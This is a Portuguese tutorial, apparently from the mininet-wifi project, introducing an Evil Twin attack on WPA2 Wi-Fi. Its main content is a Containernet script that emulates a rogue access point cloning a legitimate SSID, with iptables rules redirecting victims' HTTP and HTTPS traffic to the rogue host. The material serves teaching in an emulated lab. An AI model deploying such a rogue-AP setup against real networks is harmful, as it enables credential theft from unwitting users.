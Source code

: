 ************
Evil Twin Attack
************


Hackeando a senha de Wi-Fi WPA2 usando Evil Twin Attack | DNSMASQ e Hostapd
-------------

.. Note::
  **Neste documento você irá compreender como:**   
  
  - Acontece o ataque denominado de  Evil Twin Attack
  
  **Requisitos:** 
  
  - Containernet - https://github.com/ramonfontes/containernet
  - Hostapd

  **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi possui todos os recursos necessários para reproduzir este documento.**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

.. code:: python

 #!/usr/bin/python

 '''@author: Ramon Fontes
    @email: ramon.fontes@imd.ufrn.br'''

 from containernet.net import Containernet
 from containernet.node import DockerSta
 from mininet.log import setLogLevel, info
 from containernet.cli import CLI
 from containernet.term import makeTerm


 def topology():
     "Create a network."
     net = Containernet()

     info("*** Creating nodes\n")
     sta1 = net.addStation('sta1', ip='0/0')
     sta2 = net.addStation('sta2')
     ap1 = net.addAccessPoint('ap1', ssid="simplewifi", mode="g", channel="1",
                              failMode="standalone", datapath='user')
     ap2 = net.addStation('ap2', cls=DockerSta, dimage="ramonfontes/rogue-ap", cpu_shares=20)

     info("*** Configuring wifi nodes\n")
     net.configureWifiNodes()

     info("*** Associating Stations\n")
     net.addLink(sta2, ap1)

     info("*** Starting network\n")
     net.build()
     ap1.start([])

     ap2.setMasterMode(intf='ap2-wlan0', ssid='simplewifi', channel='1', mode='g')
     #ap2.cmd('pkill -f \"ap2-wlan0.apconf\"')
     ap2.cmd('ifconfig ap2-wlan0 up 192.168.190.1 netmask 255.255.255.0')

     #ap2.cmd('iptables --flush')
     ap2.cmd('iptables --table nat --append POSTROUTING --out-interface ap2-eth1 -j MASQUERADE')
     ap2.cmd('iptables --append FORWARD --in-interface ap2-wlan0 -j ACCEPT')
     ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.190.1:80')
     ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 192.168.190.1:80')
     ap2.cmd('iptables -t nat -A POSTROUTING -j MASQUERADE')
     ap2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

     sta1.cmd('ifconfig sta1-wlan0 192.168.190.2/24')
     sta1.cmd('route add default gw 192.168.190.1')

     info("*** Running CLI\n")
     CLI(net)

     info("*** Stopping network\n")
     net.stop()


 if __name__ == '__main__':
     setLogLevel('info')
     topology()
```

